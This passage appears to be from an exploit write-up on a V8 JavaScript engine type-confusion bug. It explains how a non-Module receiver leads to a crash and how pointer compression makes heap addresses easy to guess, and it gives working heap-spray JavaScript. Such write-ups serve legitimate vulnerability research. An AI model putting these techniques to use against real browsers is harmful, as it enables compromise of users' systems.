 Although **[0]** expects `Module` type object, the `receiver(c in poc)` is not `Module` object. So `exports` will be set by `c`'s SMI property field value(0x42424242), **type confusion** and **crash** will occur.

[](#exploit-strategy)Exploit strategy
-------------------------------------

At first, to make fake object, we need to figure out where our fake object is located. Although we don't have any memory leak primitive yet, due to [compressed pointer in V8](https://v8.dev/blog/pointer-compression), we can easily solve this problem with heap spray.

### [](#heap-spray)Heap spray

Before pointer compression was introduced, how sophisticated we do heap spray, it is very hard to guess sprayed address because we have to guess whole address (generally 6 bytes).

But due to pointer compression, we don't need to know high 2 bytes !

```
            |----- 32 bits -----|----- 32 bits -----|
Pointer:    |________base_______|______offset_____w1|


```

Because `base` value is fixed when `isolate` is instantiated, so we just do guess low 4 bytes (offset).

And actually i didn't fully analyze why this happen, sprayed objects are usually located similar region on macOS and Linux. (on d8 and chrome).

```
            |----- 32 bits -----|----- 32 bits -----|
Pointer:    |________base_______|_____0x083xxxxx____|


```

Thus, it is quite easy to guess sprayed heap address :)

```
var victim_array = [];
victim_array.length = 0x1000;

var double_array = [1.1];
double_array.length = 0x10000;
double_array.fill(1.1);

function spray_heap() {
    for(var i = 0;i < victim_array.length;i++){
        victim_array[i] = double_array.slice(0,double_array.length);
    }
}

spray_heap();
%DebugPrint(double_array);


```
